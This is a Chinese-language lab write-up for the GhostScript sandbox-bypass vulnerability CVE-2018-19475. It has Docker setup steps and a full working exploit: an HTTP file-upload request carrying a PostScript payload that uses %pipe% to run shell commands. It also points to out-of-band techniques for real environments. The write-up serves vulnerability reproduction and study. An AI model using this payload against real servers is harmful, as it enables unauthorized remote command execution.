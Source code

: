 # GhostScript 沙箱绕过命令执行漏洞（CVE-2018-19475）

GhostScript 是一套基于 Adobe Systems 的 PostScript 和 PDF 页面描述语言解释器的软件。它被许多图像处理库广泛使用。

2018年底，来自 Semmle Security Research Team 的 Man Yue Mo 发表了 CVE-2018-16509 漏洞的变体 CVE-2018-19475。该漏洞允许攻击者通过恶意图片绕过 GhostScript 的沙箱，进而在 9.26 以前版本的 gs 中执行任意命令。

参考链接：

- <https://blog.semmle.com/ghostscript-CVE-2018-19475/>
- <https://bugs.ghostscript.com/show_bug.cgi?id=700153>

## 环境搭建

执行如下命令启动漏洞环境（其中包括 GhostScript 9.25 和 ImageMagick 7.0.8-20）：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 将看到一个文件上传组件。

## 漏洞复现

将 POC 作为图片上传，执行命令 `id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"

%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--
```

可见，命令将被成功执行。

![](1.png)

在实际环境中，由于通常无法直接看到命令执行结果，你可能需要使用带外攻击技术来检测漏洞。
